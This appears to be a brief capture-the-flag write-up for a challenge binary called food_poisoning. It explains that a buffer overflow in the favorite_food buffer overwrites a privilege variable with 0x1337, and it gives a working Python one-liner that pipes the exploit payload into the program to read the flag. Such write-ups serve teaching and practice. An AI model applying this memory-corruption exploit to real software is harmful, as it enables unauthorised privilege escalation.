 Due to the buffer overflow into the `favorite_food` buffer, we can overwrite the `privilege` variable and set it to `0x1337` to read the flag.

Python oneliner:
```python
python -c "import sys; sys.stdout.buffer.write(b'1\n1\n1\n' + b'A' * 32 + b'\x37\x13\x00\x00\n' +  b'2\n')" | ./food_poisoning
```
